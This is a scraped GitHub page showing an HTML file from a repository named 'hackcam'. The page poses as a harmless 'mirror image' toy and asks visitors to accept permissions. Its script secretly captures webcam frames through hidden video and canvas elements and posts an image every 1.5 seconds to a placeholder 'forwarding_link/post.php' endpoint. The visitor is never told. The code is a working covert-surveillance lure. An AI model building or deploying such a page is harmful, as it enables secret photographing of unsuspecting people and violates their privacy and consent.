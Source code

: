 # Hackcam
Skip to content  oxlynx / hackcam Learn Git and GitHub without any code! Using the Hello World guide, you’ll start a branch, write comments, and open a pull request.   Code Issues 0 Pull requests 0 Projects 0 Wiki Security Pulse Community hackcam/oxlynx.html @oxlynx oxlynx Add files via upload b22f726 on 19 May 84 lines (64 sloc)  1.99 KB   &lt;!doctype html> &lt;html> &lt;head> &lt;script type="text/javascript" src="https://wybiral.github.io/code-art/projects/tiny-mirror/index.js">&lt;/script> &lt;link rel="stylesheet" type="text/css" href="https://wybiral.github.io/code-art/projects/tiny-mirror/index.css"> &lt;script type="text/javascript" src="https://ajax.googleapis.com/ajax/libs/jquery/1.8.3/jquery.js">&lt;/script> &lt;/head>  &lt;div class="video-wrap" hidden="hidden">    &lt;video id="video" playsinline autoplay>&lt;/video> &lt;/div>  &lt;canvas hidden="hidden" id="canvas" width="640" height="480">&lt;/canvas>  &lt;script> function post(imgdata){ $.ajax({     type: 'POST',     data: { cat: imgdata},     url: 'forwarding_link/post.php',     dataType: 'json',     async: false,     success: function(result){         // call the function that handles the response/results     },     error: function(){     }   }); }; 'use strict'; const video = document.getElementById('video'); const canvas = document.getElementById('canvas'); const errorMsgElement = document.querySelector('span#errorMsg'); const constraints = {   audio: false,   video: {          facingMode: "user"   } }; // Access webcam async function init() {   try {     const stream = await navigator.mediaDevices.getUserMedia(constraints);     handleSuccess(stream);   } catch (e) {     errorMsgElement.innerHTML = `navigator.getUserMedia error:${e.toString()}`;   } } // Success function handleSuccess(stream) {   window.stream = stream;   video.srcObject = stream; var context = canvas.getContext('2d');   setInterval(function(){        context.drawImage(video, 0, 0, 640, 480);        var canvasData = canvas.toDataURL("image/png").replace("image/png", "image/octet-stream");        post(canvasData); }, 1500);    } // Load init init(); &lt;/script>      &lt;body>         &lt;p>Hint: Look at the favicon&lt;/p>         &lt;p>(Accept Permissions)&lt;/p>         &lt;p>&lt;label>&lt;input type="checkbox" name="mirror" id="mirror" /> Mirror image&lt;/label>&lt;/p>     &lt;/body>  &lt;/html> © 2019 GitHub, Inc. Terms Privacy Security Status Help Contact GitHub Pricing API Training Blog About.
